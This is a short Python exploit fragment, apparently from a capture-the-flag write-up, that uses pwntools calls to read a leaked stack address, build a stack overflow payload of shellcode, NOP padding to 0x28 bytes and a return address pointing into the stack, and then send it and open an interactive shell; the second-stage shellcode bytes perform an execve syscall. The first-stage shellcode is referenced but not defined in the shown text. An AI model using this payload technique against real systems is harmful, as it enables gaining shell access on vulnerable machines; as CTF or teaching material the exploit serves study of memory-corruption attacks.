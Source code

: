 ```python

  shellcode2 = "\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
  #第二部分shellcode
  #push rdi
  #mov rsi, rsp
  #mov al, 0x3b
  #syscall

  print io.recvuntil("Location:")
  shellcode_address_at_stack = int(io.recv()[0:14], 16)
  log.info("Leak stack address = %x", shellcode_address_at_stack)

  payload = ""
  payload += shellcode1
  payload += "\x90"*(0x28-len(shellcode1))
  payload += p64(shellcode_address_at_stack)
  payload += shellcode2

  io.send(payload)
  io.interactive()
```
